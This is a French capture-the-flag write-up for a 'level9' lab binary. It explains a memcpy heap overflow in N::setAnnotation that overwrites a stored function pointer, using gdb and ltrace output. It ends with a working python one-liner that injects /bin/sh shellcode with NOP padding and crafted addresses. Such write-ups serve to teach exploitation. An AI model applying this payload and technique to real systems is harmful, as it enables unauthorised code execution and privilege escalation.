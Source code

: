 # `memcpy` Exploitation

En décompilant l'exécutable, on remarque qu'il fait appel à le fonction `memcpy` et qu'il fait appel à l'adresse d'une fonction enregistrée dans la mémoire. Nous avons l'intuitions que nous allons devoir utiliser cet appel fonction pour faire appel à une fonction de notre choix.

Avec `gdb`, on remarque que l'appel à la fonction stockée en mémoire est en fait une instruction `call` à l'adresse pointée par `edx`.
```
> gdb --args level9 "AAAA"
[...]
> (gdb) disas main
[...]
   0x08048693 <+159>:	call   *%edx
[...]
```
On remarque que `edx` est assigné juste après l'appel à la fonction `setAnnotation`.
```
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
   0x08048682 <+142>:	mov    (%eax),%edx
```
On constate ici in `mov` de `esp+0x10` dans `eax`. Puis un `move` de `eax` dans `edx`. Cela revient à dire qu'on `move` `esp+0x10` dans `edx`. Voyons où pointe `esp+0x10` et imprimons le contenu de cette adresse pour le visualiser plus tard dans la mémoire.
```
> (gdb) x $esp+0x10
0xbffff6a0:	0x0804a078
> (gdb) x 0x0804a078
0x804a078:	0x0804a00c
```
`esp+0x10` pointe donc sur à l'adresse `0x0804a078`.

> Il est important de noter que `edx` pointe désormais sur une adresse, qui contient l'adresse de la fonction. Cette information est importante à retenir pour la suite.

Mettons cette information de côté, et observons à présent notre `memcpy`. Déterminons tout d'abord l'endroit de la copie en mémoire. Pour cela, on peut, comment l'exercice précédent, utiliser `ltrace`.
```
> ltrace ./level9 "AAAA"
[...]
memcpy(0x0804a00c, "AAAA", 4)                                             = 0x0804a00c
[...]
```
`memcpy` copie donc à l'adresse `0x0804a00c`.

On remarque que l'adresse pointée par `esp+0x10` et l'adresse de copie de `memcpy` semblent être assez proches. On devrait donc pouvoir utiliser l'appel à le fonction `memcpy` pour écraser l'adresse pointée par `esp+0x10` par une adresse que nous définirons. Vérifions le en le visualisant. On `break` à l'instruction suivant l'appel à `memcpy`.
```
> (gdb) disas 0x804870e
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:	push   %ebp
   0x0804870f <+1>:	mov    %esp,%ebp
   0x08048711 <+3>:	sub    $0x18,%esp
   0x08048714 <+6>:	mov    0xc(%ebp),%eax
   0x08048717 <+9>:	mov    %eax,(%esp)
   0x0804871a <+12>:	call   0x8048520 <strlen@plt>
   0x0804871f <+17>:	mov    0x8(%ebp),%edx
   0x08048722 <+20>:	add    $0x4,%edx
   0x08048725 <+23>:	mov    %eax,0x8(%esp)
   0x08048729 <+27>:	mov    0xc(%ebp),%eax
   0x0804872c <+30>:	mov    %eax,0x4(%esp)
   0x08048730 <+34>:	mov    %edx,(%esp)
   0x08048733 <+37>:	call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:	leave  
   0x08048739 <+43>:	ret    
End of assembler dump.
> (gdb) b *0x08048738
Breakpoint 1 at 0x8048738
> (gdb) r
Starting program: /home/user/level9/level9 AAAA

Breakpoint 1, 0x08048738 in N::setAnnotation(char*) ()
> (gdb) x/30wx 0x0804a00c
0x804a00c:	0x41414141	0x00000000	0x00000000	0x00000000
            ^
                AAAA
0x804a01c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a02c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a03c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a04c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a05c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a06c:	0x00000000	0x00000005	0x00000071	0x08048848
                                                ^
                                                esp+0x10
0x804a07c:	0x00000000	0x00000000
```
Nos hypothèses sont confirmées. Le décalage entre les deux adresses semble assez grand pour injecter un `shell code`. Nous utiliserons celui-ci :
```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```
Rappelons-nous, l'adresse à écraser doit pointer sur une adresse contenant l'adresse du début de notre `shell code`. C'est un point important car on ne peut pas effectuer un `jump` directement sur notre `shell code`. Voici donc la façon dont nous allons remplir notre `buffer` :
```
[adresse_du_shell_code] + [shell_code] + [NOP] + [adresse_pointeur_shell_code]
^                         ^                      ^
4 octets                  45 octets              4 octets
```
L'`adresse_pointeur_shell_code` pointe en fait sur l'adresse de `adresse_du_shell_code`.

Pour connaitre le nombre d'instructions `NOP` à insérer, il nous faut connaitre au préalable le décalage entre l'adresse de copie de `memcpy` et `esp+0x10`.
```
offset = esp+0x10 - adresse_copie_memcpy + 0x04
       = 0x804A078 - 0x804a00c + 0x04
       = 70
       = 112 (base 10)
```
```
NOP = 112 - 4 - 45 - 4
    = 59
```
Nous aurons donc besoin d'insérer `59` instructions `NOP`.

Il est facile ensuite de déterminer `adresse_du_shell_code` et `adresse_pointeur_shell_code` en visualisant la mémoire. Reprenons notre visualisation mémoire avec la copie de nos caractères `AAAA` :
```
0x804a00c:	0x41414141	0x00000000	0x00000000	0x00000000
                ^               ^
                adresse         shell code
                shell code
0x804a01c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a02c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a03c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a04c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a05c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a06c:	0x00000000	0x00000005	0x00000071	0x08048848
                                                ^
                                                adresse pointeur
                                                shell code
0x804a07c:	0x00000000	0x00000000
```
Autrement dit :
```
adresse_shell_code = adresse_copie_memcpy + 0x04
                   = 0x804a00c + 0x04
                   = 0x804A010
```
```
adresse_pointeur_shell_code = adresse_copie_memcpy
                            = 0x804a00c
```
Nous pouvons donc créer notre commande que nous fournirons en argument du programme.
```
python -c 'print "\x10\xa0\x04\x08" + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90"*59 + "\x0c\xa0\x04\x08"'
```
```
./level9 `python -c 'print "\x10\xa0\x04\x08" + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90"*59 + "\x0c\xa0\x04\x08"'`
```
